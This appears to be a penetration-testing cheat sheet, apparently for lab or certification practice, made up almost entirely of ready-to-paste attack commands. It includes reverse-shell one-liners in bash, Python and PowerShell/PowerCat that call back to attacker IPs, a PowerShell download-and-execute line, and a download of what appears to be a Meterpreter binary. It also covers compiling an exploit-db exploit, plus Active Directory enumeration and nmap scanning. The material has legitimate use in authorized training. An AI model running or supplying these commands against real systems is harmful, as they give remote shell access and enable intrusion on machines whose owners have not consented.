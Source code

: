 | **Reverse shells** | **Description** |
| ---- | ---- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1` | Common reverse shell |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell` | Powershell reverse shell with PowerCat |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |


Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```

Extract metadata from a file

```
exiftool -a -u brochure.pdf
```

#### Windows

PS - Get local user
```shell
Get-LocalUser
```

PS - List IP and hostnames in AD environment
```shell
Get-ADComputer -Filter * | Select-Object DNSHostName, @{name="Ip";Expression={(Test-Connection $_.DNSHostname -Count 1).IPV4Address.IPAddressToString}}
```

Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Cross-platform exploit compiling:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

If we get errors due to the linker cannot find the winsock library:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Find filename:
```shell
dir -Path C:\  -Include flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

Retrieve a file in Powershell (same as wget)
```shell
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
```


| Enumerating | **Description** |
| ---- | ---- |
| `for i in $(cat ../internal-network.txt); do mkdir -p $i/nmap; nmap -p- --min-rate=10000 --open $i -oA "$i/nmap/quick-scan"; done` | Quick scan from scope file |
|  |  |